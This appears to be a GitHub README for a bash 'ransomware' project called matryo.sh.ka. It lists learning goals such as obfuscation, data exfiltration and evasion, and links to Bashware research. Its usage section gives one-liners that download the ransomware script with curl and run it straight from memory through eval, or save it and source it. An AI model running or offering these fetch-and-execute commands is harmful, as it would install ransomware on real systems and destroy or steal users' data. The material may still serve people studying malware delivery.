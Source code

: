 # matryo.sh.ka
matryo.sh.ka is "ransomware" implemented in bash.  
It is the sister of [kukolny](https://github.com/wilsonfisk/kukolny)

## Why?:
  * Broaden my knowledge and understanding of Computer Science.
  * Explore the various tools and techniques employed by both Linux and Windows malware, including:
    * Obfuscation techniques in various languages
	* Exfiltration of data
	* Evasion and hiding malicious activity
  * Improving proficiency with bash, Linux, and Windows
  * Explore the new "Bashware" malware threat
  * Boredom

## Utilizing matryo.sh.ka:
  * **From Memory:**
    * **Method 1:**  M=$(curl -fsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh") ; eval "$M"
	* **Method 2:**  curl -fsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh" | xclip -selection clipboard;M="xclip -o -selection clipboard"&&eval "$M"
	* xclip can be replaced with pbcopy and pbpaste for OS X hosts.
	* xsel --clipboard  is another option
  * **From Disk:**
    * curl -OfsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh" ; . matryoshka.sh

**Bashware references:**  
[Beware of the Bashware: A New Method for Any Malware to Bypass Security Solutions](https://blog.checkpoint.com/2017/09/11/beware-bashware-new-method-malware-bypass-security-solutions)

[Check Point Software Technologies, Ltd. Demonstration of the Bashware Technique](https://www.youtube.com/watch?v=fwEQFMbHIV8)

[Bish, bosh, Bashware: Microsoft downplays research on WSL Win 10 'hack' threat](https://www.theregister.co.uk/2017/09/12/microsoft_downplays_bashware_malware_threat/)
